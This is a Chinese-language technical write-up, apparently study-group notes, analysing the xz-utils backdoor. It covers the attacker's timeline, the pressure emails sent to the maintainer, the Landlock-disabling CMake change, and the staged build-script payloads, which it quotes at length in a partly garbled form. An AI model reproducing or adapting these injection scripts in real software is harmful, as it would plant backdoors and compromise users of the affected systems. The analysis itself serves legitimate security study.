


前言
這次主要是準備NCKUCTF的讀書會的主題，順便記錄一下
時間線
2021-01-27： 創建JiaT75的Github帳號
2022-02-07： 第一次對xz進行commit
2022-05： Jia Tan成為了xz的maintainer，被登記到oss-fuzz xz的contact
2024-02-23： 上傳了一些測試檔案（包含了含有惡意payload的檔案 tests/files/bad-3-corrupt_lzma2.xz、tests/files/good-large_compressed.lzma），commit
2024-02-24： 發布了5.6.0的tarball，包含了帶有問題的build-to-host.m4，帶有後門
2024-02-26： 修改了CMakeLists.txt，關閉了Landlock功能，commit
2024-03-09： 修改了測試檔案（tests/files/bad-3-corrupt_lzma2.xz、tests/files/good-large_compressed.lzma），commit
2024-03-09： 發布了5.6.0的tarball，同樣帶有後門
2024-03-29： Andres Freund在測試debian sid時發現後門
這個檔案不包含在git的source file中，只存在於5.6.0和5.6.1的tarball中，可以在web archieve 中下載，或是點xz-5.6.0.tar.zst 、xz-5.6.1.tar.zst 下載
在C的專案中，有些檔案只存在於tarball，在git中不存在是正常的，因為下游的使用者不需要去知道怎麼用autotools和autoconf，不過攻擊者利用了這個慣例，沒有將開啟後門的關鍵放入git中
有關m4/.gitignore. 1 2 3 4 + build-to-host.m4
這個其實和攻擊沒什麼關係，不過github上這個commit 的留言 挺有意思

懶人包
這是一種在linux內核(>5.15)實現的安全模型，讓process在較低權限運行，且限制其對系統資源的訪問，可用於創建沙盒和隔離危險操作
使用sys/prctl.h中的prctl()來配置landlock
▶
Lasse Collin在收到的郵件中被要求新增維護者
以下資訊來自此Mail Archieve
2022-05-19： Dennis Ens詢問XZ for java是否還在開發
2022-05-19： Lasse Collin回覆表示有很多工作在處理，但是仍有在開發，只是精力比較專注於XZ Utils的開發，在最後提到 Jia Tan在未來可能會發揮更多作用
2022-06-07： Jigar Kumar回覆施壓Lasse Collin要求他為項目新增維護者
2022-06-08： Lasse Collin回覆表示他有長期的心理問題，這個項目是一個無償維護的項目，他仍然有在努力開發，再次提到 Jia Tan在未來可能會發揮更多作用
2022-06-14： Jigar Kumar回復懷疑他們是否能夠如其發布版本，再次要求新增維護者
2022-06-21： Dennis Ens對Lasse Collin的心理問題感到抱歉，同樣也要求新增維護者
2022-06-29： Lasse Collin最後回覆新增維護者他已經思考很久了，Jia Tan很有可能在未來發生更大的作用
攻擊手法
CMakeLists.txt
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 # Sandboxing: Landlock- check_include_file(linux/landlock.h HAVE_LINUX_LANDLOCK_H) + # A compile check is done here because some systems have + # linux/landlock.h, but do not have the syscalls defined + # in order to actually use Linux Landlock. + check_c_source_compiles(" + #include <linux/landlock.h> + #include <sys/syscall.h> + #include <sys/prctl.h> +. + void my_sandbox(void) + { + (void)prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0); + (void)SYS_landlock_create_ruleset; + (void)SYS_landlock_restrict_self; + (void)LANDLOCK_CREATE_RULESET_VERSION; + return; + } + int main(void) { return 0; } + " + HAVE_LINUX_LANDLOCK) - if(HAVE_LINUX_LANDLOCK_H) - set(SANDBOX_COMPILE_DEFINITION "HAVE_LINUX_LANDLOCK_H") + if(HAVE_LINUX_LANDLOCK) + set(SANDBOX_COMPILE_DEFINITION "HAVE_LINUX_LANDLOCK")
Github上的commit
▶
check_c_source_compiles與check_include_file
這兩個是cmake定義的函數
check_c_source_compiles 1 2 check_c_source_compiles(<code> <resultVar>
這會檢查<code> 的原始碼能否被編譯成連接檔，並將結果存於<resultVar>中
check_include_file 1 CHECK_INCLUDE_FILE(<include > <variable> [<flags>])
這會檢查<include>是否能被引入，並將結果存於<variable>中
這一段的用處是檢查編譯機器是否能啟用Landlock feature
原本是使用check_include_file() 來檢查，Jia Tan將其改為使用check_c_source_compiles() 來檢查
理論上這樣更換並不會造成問題，但是在第11行的行首可以看到多了一個. ，這導致這段C code會編譯失敗，因此關閉了Landlock，不管在任何的機器上都會關閉，而不是原本的邏輯，只在不支援的機器關閉
m4/build-to-host.m4
5.6.0中的build-to-host.m4 與5.6.1中的完全相同
攻擊者對標準的build-to-host.m4進行修改，差異如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 @@ -1,5 +1,5 @@ -# build-to-host.m4 serial 3 -dnl Copyright (C) 2023 Free Software Foundation, Inc. +# build-to-host.m4 serial 30 +dnl Copyright (C) 2023-2024 Free Software Foundation, Inc. @@ -37,6 +37,7 @@ AC_DEFUN([gl_BUILD_TO_HOST],+ gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"` @@ -58,14 +59,40 @@ AC_DEFUN([gl_BUILD_TO_HOST],+ if test "x$gl_am_configmake" != "x"; then + gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null' + else + gl_[$1]_config='' + fi + _LT_TAGDECL([], [gl_path_map], [2])dnl + _LT_TAGDECL([], [gl_[$1]_prefix], [2])dnl + _LT_TAGDECL([], [gl_am_configmake], [2])dnl + _LT_TAGDECL([], [[$1]_c_make], [2])dnl + _LT_TAGDECL([], [gl_[$1]_config], [2])dnl + + dnl If the host conversion code has been placed in $gl_config_gt, + dnl instead of duplicating it all over again into config.status, + dnl then we will have config.status run $gl_config_gt later, so it + dnl needs to know what name is stored there: + AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"]) + dnl Search for Automake-defined pkg* macros, in the order + dnl listed in the Automake 1.10a+ documentation. + gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null` + if test -n "$gl_am_configmake"; then + HAVE_PKG_CONFIGMAKE=1 + else + HAVE_PKG_CONFIGMAKE=0 + fi + + gl_path_map='tr "\t \-_" " \t_\-"'
先將檔案中的變數解析出來
1 2 3 4 5 gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`gl_[$ 1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g" ` gl_[$ 1]_prefix=xz
在這段邏輯中，將會檢查是否有設定gl_am_configmake 變數，如果沒有，後門將不會啟動
1 2 3 4 5 if test "x$gl_am_configmake" != "x"; then gl_[$ 1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null' gl_[$ 1]_config=''
gl_[$1]_config 將在
AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt=eval $gl_[$1]_config]) 中執行
如果變數存在，gl_[$1]_config 將會從 tests/files/bad-3-corrupt_lzma2.xz中拿到phase 1 payload，在5.6.0和5.6.1版本具有差異
5.6.0
1 2 3 4 5 6 7 8 9 10 11 12 gl_[$ 1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null' gl_[$ 1]_config=` # # Z.hj #
5.6.1
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 gl_[$ 1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null' gl_[$ 1]_config=` # # �$� #
這兩個版本的payload差不多，不過5.6.1版本會確認是否在Linux上編譯，而且確認了5次，可能是為了增加更改的量，讓commit看起來更正常
另一個不同的點是變數i 的值不同，偏移量有所區別
i 的指令會丟棄前1024bytes，輸出2048bytes，再次丟棄前1024bytes，輸出2048bytes，這樣重複16次，最後丟棄前1024bytes，輸出724bytes(5.6.0)/939bytes(5.6.1)
後面的部分則是將第二個包含惡意Payload的測試檔案(tests/files/good-large_compressed.lzma)解壓縮，並對輸出執行i 的指令，擷取尾部31265bytes(5.6.0)/31233bytes(5.6.1)，使用tr替換字元，再次進行一次解壓縮，得到phase2 payload，並將其執行
1 xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
5.6.0-phase2-payload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
5.6.1-phase2-payload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections" "pic_flag=\" $P \"" "^pic_flag=\" -fPIC -DPIC\"$" "is_arch_extension_supported" "__get_cpuid(" "good-large_compressed.lzma" "bad-3-corrupt_lzma2.xz" uname )="Linux" ] && exit 0eval $zrKcVq if test -f config.status; then eval $zrKcSS eval `grep ^LD=\'\/ config.status`eval `grep ^CC=\' config.status`eval `grep ^GCC=\' config.status`eval `grep ^srcdir=\' config.status`eval `grep ^build=\'x86_64 config.status`eval `grep ^enable_shared=\'yes \' config.status`eval `grep ^enable_static=\' config.status`eval `grep ^gl_path_map=\' config.status`'~!:_ W' $srcdir /tests/files/ 2>/dev/null`if test "x$vs " != "x" > /dev/null 2>&1;then echo $vs | cut -d: -f1`if test "x$f1 " != "x" > /dev/null 2>&1;then expr $(echo $vs | cut -d: -f2) + 7`'|_!{ -' $srcdir /tests/files/ 2>/dev/null`if test "x$ve " != "x" > /dev/null 2>&1;then echo $ve | cut -d: -f1`if test "x$f2 " != "x" > /dev/null 2>&1;then "x$f2 " = "x$f1 " ] && exit 0$f1 ] && exit 0expr $(echo $ve | cut -d: -f2) - $start `eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`fi fi fi fi eval $zrKccj if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then exit 0fi if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then exit 0fi if test "x$enable_shared " != "xyes" ;then exit 0fi if ! (echo "$build " | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build " | grep -Eq "linux-gnu$" > /dev/null 2>&1);then exit 0fi if ! grep -qs "$R ()" $srcdir /src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then exit 0fi if ! grep -qs "$R ()" $srcdir /src/liblzma/check/crc32_fast.c > /dev/null 2>&1; then exit 0fi if ! grep -qs "$R " $srcdir /src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then exit 0fi if ! grep -qs "$x " $srcdir /src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then exit 0fi if test "x$GCC " != 'xyes' > /dev/null 2>&1;then exit 0fi if test "x$CC " != 'xgcc' > /dev/null 2>&1;then exit 0fi $LD " -v" if ! $LDv 2>&1 | grep -qs 'GNU ld' > /dev/null 2>&1;then exit 0fi if ! test -f "$srcdir /tests/files/$p " > /dev/null 2>&1;then exit 0fi if ! test -f "$srcdir /tests/files/$U " > /dev/null 2>&1;then exit 0fi if test -f "$srcdir /debian/rules" || test "x$RPM_ARCH " = "xx86_64" ;then eval $zrKcst "^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4" if ! grep -qs "$j " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi "^am__uninstall_files_from_dir = {" if ! grep -qs "$z " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi "^am__install_max =" if ! grep -qs "$w " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi $z if ! grep -qs "$E " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi "^am__vpath_adj_setup =" if ! grep -qs "$Q " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi "^am__include = include" if ! grep -qs "$M " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi "^all: all-recursive$" if ! grep -qs "$L " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi "^LTLIBRARIES = \$(lib_LTLIBRARIES)" if ! grep -qs "$m " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi "AM_V_CCLD = \$(am__v_CCLD_\$(V))" if ! grep -qs "$u " src/liblzma/Makefile > /dev/null 2>&1;then exit 0fi if ! grep -qs "$O " libtool > /dev/null 2>&1;then exit 0fi eval $zrKcTy "am__test = $U " "/$j /i$b " src/liblzma/Makefile || true echo $gl_path_map | sed 's/\\\/\\\\\\\\/g' `"am__strip_prefix = $d " "/$w /i$b " src/liblzma/Makefile || true "am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)" "/$E /i$b " src/liblzma/Makefile || true "\$(top_srcdir)/tests/files/\$(am__test)" "am__test_dir=$b " "/$Q /i$s " src/liblzma/Makefile || true "-Wl,--sort-section=name,-X" if ! echo "$LDFLAGS " | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then $h ",-z,now" fi "liblzma_la_LDFLAGS += $h " "/$L /i$j " src/liblzma/Makefile || true "s/$O /$C /g" libtool || true "AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))" "s/$u /$k /" src/liblzma/Makefile || true "LTDEPS='\$(lib_LTDEPS)'; \\\\\n\ export top_srcdir='\$(top_srcdir)'; \\\\\n\ export CC='\$(CC)'; \\\\\n\ export DEFS='\$(DEFS)'; \\\\\n\ export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\ export INCLUDES='\$(INCLUDES)'; \\\\\n\ export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\ export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\ export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\ export CFLAGS='\$(CFLAGS)'; \\\\\n\ export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\ export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\ export libdir='\$(libdir)'; \\\\\n\ export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\ export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\ sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1" ;"/$m /i$l " src/liblzma/Makefile || true eval $zrKcHD fi elif (test -f .libs/liblzma_la-crc64_fast.o) && (test -f .libs/liblzma_la-crc32_fast.o); then 'jV!.^%' $top_srcdir /tests/files/ 2>/dev/null`if test "x$vs " != "x" > /dev/null 2>&1;then echo $vs | cut -d: -f1`if test "x$f1 " != "x" > /dev/null 2>&1;then expr $(echo $vs | cut -d: -f2) + 7`'%.R.1Z' $top_srcdir /tests/files/ 2>/dev/null`if test "x$ve " != "x" > /dev/null 2>&1;then echo $ve | cut -d: -f1`if test "x$f2 " != "x" > /dev/null 2>&1;then "x$f2 " = "x$f1 " ] && exit 0$f1 ] && exit 0expr $(echo $ve | cut -d: -f2) - $start `eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`fi fi fi fi eval $zrKcKQ if ! grep -qs "$R ()" $top_srcdir /src/liblzma/check/crc64_fast.c; then exit 0fi if ! grep -qs "$R ()" $top_srcdir /src/liblzma/check/crc32_fast.c; then exit 0fi if ! grep -qs "$R " $top_srcdir /src/liblzma/check/crc_x86_clmul.h; then exit 0fi if ! grep -qs "$x " $top_srcdir /src/liblzma/check/crc_x86_clmul.h; then exit 0fi if ! grep -qs "$C " ../../libtool; then exit 0fi if ! echo $liblzma_la_LINK | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then exit 0fi if echo $liblzma_la_LINK | grep -qs -e "lazy" > /dev/null 2>&1;then exit 0fi "dnl Convert it to C string syntax." $top_srcdir /m4/gettext.m4`eval $zrKcjv if test -z "$Y " ; then else fi $top_srcdir /tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<8192;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2 >&1 ) && head -c +$W ) > liblzma_la-crc64-fast.o || true0 0 ))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported' eval $yosA if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \ sed "/include \"crc_x86_clmul.h\"/a \\$V" | \ sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc64_fast.c\"" 2>/dev/null | \ $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c - $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o || true eval $BPep if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \ sed "/include \"crc32_arm64.h\"/a \\$V" | \ sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \ $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c - $P -o .libs/liblzma_la-crc32_fast.o; then eval $RgYB if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then if test ! -f .libs/liblzma.so; then mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true fi rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true else mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true fi rm -f .libs/liblzma_la-crc32-fast.o || true rm -f .libs/liblzma_la-crc64-fast.o || true else mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true fi else mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true fi rm -f liblzma_la-crc64-fast.o || true fi eval $DHLd
[ ! $(uname)=“Linux” ] && exit 0 其實沒有空格會導致這行無作用
phase2 payload將會檢查許多條件，如果符合，就會開始後門的植入
這會繼續從tests/files/good-large_compressed.lzma中解壓縮出liblzma_la-crc64-fast.o，這是個惡意的連接檔
並將原本的檔案做備份到名稱接近的檔案
1 cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o
接著就是修改編譯的檔案，植入後門
最後根據成功或失敗，把解壓縮的檔案清除，或將備份的檔案復原
如果想瞭解更詳細的植入過程，可以參考此網站research!rsc: The xz attack shell script
或是參考這張圖理解，此圖來自Thomas Roccia

有關對liblzma_la-crc32-fast.o、liblzma_la-crc64-fast.o的逆向分析，可以參考以下連結
[WIP] XZ Backdoor Analysis and symbol mapping
smx-smx/xzre: XZ backdoor reverse engineering
XZ-Utils供应链威胁揭秘：后门投毒深度分析与防御策略 - 网络攻防
超級懶人包：簡單來說就是透過liblzma_la-crc32-fast.o、liblzma_la-crc64-fast.o這兩個連接檔，在編譯時修改了原本_get_cpuid() 函數，在執行時透過gcc ifunc劫持openssl的RSA_public_decrypt() 函數，達成後門
xz與sshd/rce的關係
理論上openssh並不依賴liblzma，但是debian等發行版修改了openssh，為openssh打上了patch，讓其支援systemd的通知，因此依賴了libsystemd，而libsystemd依賴liblzma，因此openssh間接依賴liblzma，這導致後門的產生。
演示
參考